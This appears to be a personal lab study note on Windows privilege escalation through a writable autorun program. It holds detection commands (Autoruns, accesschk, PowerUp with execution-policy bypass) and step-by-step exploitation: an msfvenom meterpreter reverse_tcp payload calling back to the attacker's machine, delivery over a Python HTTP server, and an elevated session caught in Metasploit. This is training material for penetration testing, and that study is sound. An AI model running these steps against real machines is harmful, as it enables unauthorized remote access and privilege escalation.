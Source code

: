 #Windows #PrivEsc #Registry #Autoruns #Accesschk #PowerUp #Bitsadmin #msfconsole #MSFvenom #meterpreter #metasploit #SimpleHTTPServer
# **Autoruns**

## **Detection**

Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`  
2. In Autoruns, click on the ‘Logon’ tab.  
3. From the listed results, notice that the “My Program” entry is pointing to “`C:\Program Files\Autorun Program\program.exe`”.  
4. In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`  
5. From the output, notice that the “Everyone” user group has “`FILE_ALL_ACCESS`” permission on the “program.exe” file.

- Can run `PowerUp.ps1` and see this is vulnerable as well - Must open `cmd` at location of `PowerUp.ps1`
```
PS > powershell -ep bypass

PS > . .\PowerUp.ps1

PS > Invoke-AllChecks
```

**Exploitation**

Kali VM

1. Open command prompt and type: **`msfconsole`**  
2. In Metasploit (msf > prompt) type: **`use multi/handler`**  
3. In Metasploit (msf > prompt) type: **`set payload windows/meterpreter/reverse_tcp`**  
4. In Metasploit (msf > prompt) type: **`set lhost [Kali VM IP Address]`**  
5. In Metasploit (msf > prompt) type: **`run`**  
6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`  
7. Copy the generated file, program.exe, to the Windows VM (many ways to do [[🟩HTB Academy/07_File Transfers/File Transfers|File Transfers]], but should use a simple python server and navigate to the `lhost` IP in Internet Explorer).
```
┌──(root㉿kali)-[~/Downloads]
└─# python -m SimpleHTTPServer 80 
Serving HTTP on 0.0.0.0 port 80 ...
```
- Run program and catch `meterpreter` reverse shell
	- POC achieved, so now exit this shell and follow next steps for `Autorun` privilege escalation

Windows VM

1. Place program.exe in ‘`C:\Program Files\Autorun Program`’.  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM

1. Wait for a new session to open in Metasploit.  
2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`  
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`
